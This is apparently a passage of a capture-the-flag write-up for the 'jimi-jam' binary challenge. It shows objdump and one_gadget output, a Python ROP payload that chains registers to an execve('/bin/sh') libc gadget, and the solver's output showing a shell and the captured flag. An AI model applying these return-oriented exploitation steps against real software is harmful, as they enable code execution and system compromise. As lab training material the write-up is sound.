 ```python
```

# Offset of puts@plt

The offset given with `elf.sym["puts"]` was incorrect incorrect, i don't know why but the correct value can be found with `objdump`

```console
> objdump -d jimi-jam | grep "puts@plt"
00000000000010b0 <puts@plt>:
    127c:       e8 2f fe ff ff          callq  10b0 <puts@plt> # offset de 10bo
```

# One gadget

Here is an other solution to start a shell. It uses `one_gadget` :

```console
> one_gadget /usr/lib/x86_64-linux-gnu/libc.so.6
/var/lib/gems/2.7.0/gems/one_gadget-1.7.3/lib/one_gadget/fetchers/base.rb:32: warning: Using the last argument as keyword parameters is deprecated; maybe *
* should be added to the call
/var/lib/gems/2.7.0/gems/one_gadget-1.7.3/lib/one_gadget/gadget.rb:27: warning: The called method `initialize' is defined here
0xcbc7a execve("/bin/sh", r12, r13)
constraints:
  [r12] == NULL || r12 == NULL
  [r13] == NULL || r13 == NULL
```

Payload :

```python
payload = pack(0x90)*16                                      # offset
payload += p64(elf.address + GADGETS['pop_r12_r13_r14_r15']) # one_gadget constraints
payload += p64(0)                                            # R12 = 0
payload += p64(0)                                            # R13 = 0
payload += p64(0)                                            # R14 = 0
payload += p64(0)                                            # R15 = 0
payload += p64(libc.address + 0xcbc7a)                     # Local Start a shell from libc, offset found with one_gadget
```
This gadget worked on local but not on remote.

# Flag

Launching this script we can get the `flag` :

```
> python3 solution.py
ROPJAIL address :
0x55660e4ad060
SYSTEM address :
0x55660e4a9000
READ address :
0x7fcf53c14130
LIBC address :
0x7fcf53b03000
[*] Switching to interactive mode
$ ls
flag.txt
jimi-jam
$ cat flag.txt
flag{do_you_like_ropping}
```